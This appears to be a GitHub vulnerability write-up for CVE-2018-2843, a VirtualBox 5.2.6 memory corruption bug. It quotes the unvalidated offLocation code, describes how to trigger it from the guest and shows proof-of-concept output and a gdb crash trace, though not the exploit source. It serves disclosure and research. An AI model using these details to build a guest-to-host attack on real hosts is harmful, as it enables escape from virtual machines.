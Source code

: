 # CVE-2018-2843 

**Bug: offLocation provided by guest is not validated in hgsmiChannelHandler (HGSMIHost.cpp)**

HGSMI_CC_HOST_FLAGS_LOCATION is used by guest to tell the host the location of HGSMIHOSTFLAGS structure in VRAM buffer. However
pLoc->offLocation used for calculating the address pHGFlags in VRAM buffer is not validated. This results in memory corruption.

```c
static DECLCALLBACK(int) hgsmiChannelHandler (void *pvHandler, uint16_t u16ChannelInfo, void *pvBuffer, HGSMISIZE cbBuffer)
{
. . .
    switch (u16ChannelInfo)
    {
        case HGSMI_CC_HOST_FLAGS_LOCATION:
        {
            if (cbBuffer < sizeof (HGSMIBUFFERLOCATION))
            {
                rc = VERR_INVALID_PARAMETER;
                break;
            }

            HGSMIBUFFERLOCATION *pLoc = (HGSMIBUFFERLOCATION *)pvBuffer;
            if (pLoc->cbLocation != sizeof(HGSMIHOSTFLAGS))
            {
                rc = VERR_INVALID_PARAMETER;
                break;
            }

            pIns->pHGFlags = (HGSMIHOSTFLAGS*)HGSMIOffsetToPointer (&pIns->area, pLoc->offLocation);
. . .
}
```

**Triggering the Bug:**

One of the code path to trigger the issue is vgaR3IOPortHGSMIWrite() in DevVGA.cpp. The provided PoC triggers a crash by writing to .text segment of VBoxSharedFolders.so, mapped immediately after the VRAM buffer. The bug provides limited control over data written.

```c
static DECLCALLBACK(int) vgaR3IOPortHGSMIWrite(PPDMDEVINS pDevIns, void *pvUser, RTIOPORT Port, uint32_t u32, unsigned cb)
{
. . .
    if (cb == 4)
    {
        switch (Port)
        {
            case VGA_PORT_HGSMI_HOST: /* Host */
            {
# if defined(VBOX_WITH_VIDEOHWACCEL) || defined(VBOX_WITH_VDMA) || defined(VBOX_WITH_WDDM)
                if (u32 == HGSMIOFFSET_VOID)
                {
                    PDMCritSectEnter(&pThis->CritSectIRQ, VERR_SEM_BUSY);

                    if (pThis->fu32PendingGuestFlags == 0)
                    {
                        PDMDevHlpPCISetIrqNoWait(pDevIns, 0, PDM_IRQ_LEVEL_LOW);
                        HGSMIClearHostGuestFlags(pThis->pHGSMI,
                                                 HGSMIHOSTFLAGS_IRQ
#  ifdef VBOX_VDMA_WITH_WATCHDOG
                                                 | HGSMIHOSTFLAGS_WATCHDOG
#  endif
                                                 | HGSMIHOSTFLAGS_VSYNC
                                                 | HGSMIHOSTFLAGS_HOTPLUG
                                                 | HGSMIHOSTFLAGS_CURSOR_CAPABILITIES
                                                );
                    }
                    else
                    {
                        HGSMISetHostGuestFlags(pThis->pHGSMI, HGSMIHOSTFLAGS_IRQ | pThis->fu32PendingGuestFlags);
                        pThis->fu32PendingGuestFlags = 0;
. . .
}
```
```
renorobert@ubuntuguest:~/CVE-2018-2843$ sudo ./poc 
[sudo] password for renorobert: 
poc: [+] VRAM buffer size = 0x1000000
poc: [+] VRAM buffer mapped @ 0x7f7416e24000
poc: [+] Setting up payload...
```

```
gdb-peda$ c
Continuing.
 
Thread 14 "EMT-1" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7fffba3f9700 (LWP 10535)]

[----------------------------------registers-----------------------------------]
RAX: 0x7fff89ea4000 --> 0x10102464c457f 
RBX: 0x7fffdc022000 --> 0xffe40030 
RCX: 0x0 
RDX: 0xffff800000000000 
RSI: 0xffffff8d 
RDI: 0x7fff9c508110 --> 0x7ffff7e30000 --> 0x5 
RBP: 0x7fffba3f8ce0 --> 0x7fffba3f8d00 --> 0x7fffba3f8d50 --> 0x7fffba3f8d80 --> 0x7fffba3f8db0 --> 0x7fffba3f8df0 (--> ...)
RSP: 0x7fffba3f8ce0 --> 0x7fffba3f8d00 --> 0x7fffba3f8d50 --> 0x7fffba3f8d80 --> 0x7fffba3f8db0 --> 0x7fffba3f8df0 (--> ...)
RIP: 0x7fff8ac097ec (lock and DWORD PTR [rax],esi)
R8 : 0x0 
R9 : 0x0 
R10: 0xffffffff7fff8000 
R11: 0x246 
R12: 0x7fffdc035f10 --> 0x19790326 
R13: 0x7fffdc022000 --> 0xffe40030 
R14: 0x7fff8abab980 (cmp    r8d,0x4)
R15: 0x4
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fff8ac097e5:	test   rax,rdx
   0x7fff8ac097e8:	jne    0x7fff8ac097ef
   0x7fff8ac097ea:	not    esi
=> 0x7fff8ac097ec:	lock and DWORD PTR [rax],esi
   0x7fff8ac097ef:	pop    rbp
   0x7fff8ac097f0:	ret    
   0x7fff8ac097f1:	nop    DWORD PTR [rax+rax*1+0x0]
   0x7fff8ac097f6:	nop    WORD PTR cs:[rax+rax*1+0x0]
[------------------------------------stack-------------------------------------]
0000| 0x7fffba3f8ce0 --> 0x7fffba3f8d00 --> 0x7fffba3f8d50 --> 0x7fffba3f8d80 --> 0x7fffba3f8db0 --> 0x7fffba3f8df0 (--> ...)
0008| 0x7fffba3f8ce8 --> 0x7fff8ababa1a (mov    rdi,r12)
0016| 0x7fffba3f8cf0 --> 0x3b0 
0024| 0x7fffba3f8cf8 --> 0x7ffff7e37c60 --> 0x19280620 
0032| 0x7fffba3f8d00 --> 0x7fffba3f8d50 --> 0x7fffba3f8d80 --> 0x7fffba3f8db0 --> 0x7fffba3f8df0 --> 0x7fffba3f8e80 (--> ...)
0040| 0x7fffba3f8d08 --> 0x7fffdf424142 (<IOMIOPortWrite+194>:	mov    rdi,QWORD PTR [r13+0x40])
0048| 0x7fffba3f8d10 --> 0x0 
0056| 0x7fffba3f8d18 --> 0xfffffffff7e56000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fff8ac097ec in ?? () from /usr/lib/virtualbox/VBoxDD.so
gdb-peda$ 

gdb-peda$ vmmap $rax
Start              End                Perm	Name
0x00007fff89ea4000 0x00007fff89ead000 r-xp	/usr/lib/virtualbox/VBoxSharedFolders.so
```
## Environment

**VirtualBox:** Version 5.2.6 r120293

**Host OS:** Ubuntu Desktop 16.04.4 LTS 64-bit

**Guest OS:** Ubuntu Server 16.04.3 LTS 64-bit

The bug affects VirtualBox in default configuration for any Host OS
